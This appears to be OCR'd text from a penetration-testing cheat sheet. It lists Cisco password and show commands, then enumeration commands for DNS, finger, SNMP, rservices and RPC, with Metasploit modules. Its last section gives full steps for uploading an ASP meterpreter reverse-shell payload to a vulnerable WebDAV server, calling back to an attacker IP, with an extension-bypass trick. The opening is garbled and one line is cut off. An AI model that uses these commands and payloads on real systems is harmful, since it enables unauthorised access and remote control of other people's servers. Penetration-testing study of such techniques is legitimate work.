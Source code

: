 enable secret more secure than enable password.

For example, in the configuration command:
enable secret 5 $1$iUjJ$cDZ03KKGh7mHfX2RSbDqP.
The enable secret has been hashed with MD5, whereas in the command:
username jdoe password 7 07362E590E1B1C041B1E124C0A2F2E206832752E1A01134D
The password has been encrypted using the weak reversible algorithm.

enable - Change to privileged mode to view configs
config terminal/config t - Change to global config mode to modify

#show version - Gives you the router's configuration register (Firmware)
#show running-config - Shows the router, switch, or firewall's current configuration
#show ip route - show the router's routing table
#show tech-support - Dump config but obscure passwords

__Remote Information Services__

[+] DNS
Zone Transfer - host -l securitymuppets.com 192.168.100.2
Metasploit Auxiliarys:
auxiliary/gather/enum_dns
use auxiliary/gather/dns...

[+] Finger - Enumerate Users
finger @192.168.0.1
finger -l -p user@ip-address
auxiliary/scanner/finger/finger_users

[+] NTP
Metasploit Auxiliarys

[+] SNMP
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt
Metasploit Module snmp_enum
snmpcheck -t snmpservice

[+] rservices
rwho 192.168.0.1
rlogin -l root 192.168.0.17

[+] RPC Services
rpcinfo -p
Endpoint_mapper metasploit

__Web Services__

[+] WebDAV
Metasploit Auxiliarys
Upload shell to Vulnerable WebDAV directory:
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=4444 R | msfencode -t asp -o shell.asp
cadaver http://192.168.0.60/
put shell.asp shell.txt
copy shell.txt shell.asp;.txt
Start reverse handler - browse to http://192.168.0.60/shell.asp;.txt
